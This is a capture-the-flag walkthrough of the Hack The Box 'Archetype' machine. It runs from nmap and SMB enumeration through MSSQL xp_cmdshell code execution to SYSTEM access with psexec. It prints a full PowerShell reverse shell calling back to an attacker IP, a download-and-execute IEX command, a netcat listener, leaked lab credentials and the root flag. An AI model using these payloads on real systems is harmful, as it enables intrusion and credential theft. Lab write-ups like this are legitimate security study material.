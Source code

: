 HTB - Archetype

1. Scan with `nmap`:
	```
	kali@kali:~$ nmap -T4 -A -p- 10.10.10.27 
	Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-03 17:58 EDT
	Nmap scan report for 10.10.10.27
	Host is up (0.042s latency).
	Not shown: 65480 closed ports, 43 filtered ports
	PORT      STATE SERVICE      VERSION
	135/tcp   open  msrpc        Microsoft Windows RPC
	139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
	445/tcp   open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
	1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
	| ms-sql-ntlm-info: 
	|   Target_Name: ARCHETYPE
	|   NetBIOS_Domain_Name: ARCHETYPE
	|   NetBIOS_Computer_Name: ARCHETYPE
	|   DNS_Domain_Name: Archetype
	|   DNS_Computer_Name: Archetype
	|_  Product_Version: 10.0.17763
	| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
	| Not valid before: 2020-05-03T17:16:49
	|_Not valid after:  2050-05-03T17:16:49
	|_ssl-date: 2020-05-03T22:15:41+00:00; +14m18s from scanner time.
	5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
	|_http-server-header: Microsoft-HTTPAPI/2.0
	|_http-title: Not Found
	47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
	|_http-server-header: Microsoft-HTTPAPI/2.0
	|_http-title: Not Found
	49664/tcp open  msrpc        Microsoft Windows RPC
	49665/tcp open  msrpc        Microsoft Windows RPC
	49666/tcp open  msrpc        Microsoft Windows RPC
	49667/tcp open  msrpc        Microsoft Windows RPC
	49668/tcp open  msrpc        Microsoft Windows RPC
	49669/tcp open  msrpc        Microsoft Windows RPC
	Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
	
	Host script results:
	|_clock-skew: mean: 1h38m18s, deviation: 3h07m51s, median: 14m17s
	| ms-sql-info: 
	|   10.10.10.27:1433: 
	|     Version: 
	|       name: Microsoft SQL Server 2017 RTM
	|       number: 14.00.1000.00
	|       Product: Microsoft SQL Server 2017
	|       Service pack level: RTM
	|       Post-SP patches applied: false
	|_    TCP port: 1433
	| smb-os-discovery: 
	|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
	|   Computer name: Archetype
	|   NetBIOS computer name: ARCHETYPE\x00
	|   Workgroup: WORKGROUP\x00
	|_  System time: 2020-05-03T15:15:32-07:00
	| smb-security-mode: 
	|   account_used: guest
	|   authentication_level: user
	|   challenge_response: supported
	|_  message_signing: disabled (dangerous, but default)
	| smb2-security-mode: 
	|   2.02: 
	|_    Message signing enabled but not required
	| smb2-time: 
	|   date: 2020-05-03T22:15:33
	|_  start_date: N/A
	
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 187.16 seconds
	```
2. Nessus scan for fun
	Start with `sudo /etc/init.d/nessusd start` and go to `https://kali:8834`

	[HTB_Intro_rorn1w.pdf](./resources/eb70a8f8c6a5494dbc347e25ea25f312.pdf)

3. Samba is open so lets see is anonymous login enabled and list the shares
	```
	smbclient -L \\\\10.10.10.27\\
	anonymous (or use -N in above command for anonymous login)
	```
	Result: `backups` directory found
	
	See inside `backups`: `smbclient -N \\\\10.10.10.27\\backups`. There is a dtsConfig file, which is a config file used with SSIS: 
	```
	get prod.dtsConfig
	exit
	cat pro.dtsConfig
	```
	
	```
	ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
	```
	
	Result: Contains credientials for user `ARCHETYPE\sql_svc` with password `M3g4c0rp123`.
4. Target is running `Microsoft SQL Server 2017 14.00.1000.00` per the `nmap` scan. Searching for exploit reveals [Rapid 7](https://www.rapid7.com/db/modules/exploit/windows/mssql/mssql_payload) and [HackTricks Book](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)
	* HackTricks had command to gather info about the service: `nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=ARCHETYPE\sql_svc,mssql.password=M3g4c0rp123,mssql.instance-name=ARCHETYPE -sV -p 1433 10.10.10.27` which was not helpful since it is similar to the `-A` flag. 
	* Attempt Metasploit exploit:
		```
		sudo msfconsole
		search mssql
		use exploit/windows/mssql/mssql_payload
		options
		set username sql_svc
		set password M3g4c0rp123
		set rhosts 10.10.10.27
		set USE_WINDOWS_AUTHENT true
		set payload windows/meterpreter/reverse_tcp
		options
		run
		```
		Possibly could use `set payload windows/shell_reverse_tcp`
		Failed.
	* Manual Exploit
		* Let's try connecting to the SQL Server using Impacket's mssqlclient.py: `python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -win`dows-auth`
		* We can use the `IS_SRVROLEMEMBER` function to reveal whether the current SQL user has sysadmin (highest level) privileges on the SQL Server. This is successful, and we do indeed have sysadmin privileges. This will allow us to enable xp_cmdshell and gain RCE on the host. Let's attempt this, by inputting the commands below.
			```
			EXEC sp_configure 'Show Advanced Options', 1;
			reconfigure;
			sp_configure;
			EXEC sp_configure 'xp_cmdshell', 1
			reconfigure;
			xp_cmdshell "whoami" 
			```
		* Save following as `shell.ps1`: `kali@kali:~$ cat shell.ps1 
 $client = New-Object System.Net.Sockets.TCPClient("10.10.15.117",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() `
		* Next, stand up a mini webserver in order to host the file. We can use Python: `python3 -m http.server 80`
		* After standing up a netcat listener on port 443: `nc -lvnp 443`
		* We can now issue the command to download and execute the reverse shell through xp_cmdshell: `xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.15.117/shell.ps1\");" `
		* A shell is received as sql_svc, and we can get the user.txt on their desktop.
5. Privilege Escalation
	* As this is a normal user account as well as a service account, it is worth checking for frequently access files or executed commands. We can use the command below to access the PowerShell history file: `type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
		Result: `net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!`
	* This reveals that the backups drive has been mapped using the local administrator credentials. We can use Impacket's psexec.py to gain a privileged shell.
		```
		kali@kali:~/Downloads/impacket-0.9.21/examples$ python3 psexec.py administrator@10.10.10.27
		Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
		
		Password: MEGACORP_4dm1n!!
		[*] Requesting shares on 10.10.10.27.....
		[*] Found writable share ADMIN$
		[*] Uploading file tHaoJdVi.exe
		[*] Opening SVCManager on 10.10.10.27.....
		[*] Creating service JESk on 10.10.10.27.....
		[*] Starting service JESk.....
		[!] Press help for extra shell commands
		Microsoft Windows [Version 10.0.17763.107]
		(c) 2018 Microsoft Corporation. All rights reserved.
		
		C:\Windows\system32>whoami
		nt authority\system

		```
	* Get flag
		```
		cd C:\Users\Administrator\Desktop
		type root.txt
		b91ccec3305e98240082d4474b848528
		```


